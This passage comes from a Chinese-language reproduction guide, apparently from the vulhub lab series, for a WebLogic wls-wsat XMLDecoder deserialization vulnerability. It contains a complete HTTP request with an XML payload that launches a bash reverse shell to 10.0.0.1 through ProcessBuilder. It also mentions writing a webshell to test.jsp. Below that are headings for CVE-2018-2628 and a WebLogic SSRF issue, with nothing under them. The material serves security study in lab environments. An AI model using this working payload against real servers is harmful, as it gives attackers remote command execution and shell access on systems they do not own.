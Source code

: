 > 写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp）`：

## 漏洞复现
发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


# **[Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）](https://vulhub.org/#/environments/weblogic/CVE-2018-2628/)**

## 



# **[Weblogic SSRF漏洞](https://vulhub.org/#/environments/weblogic/ssrf/)**
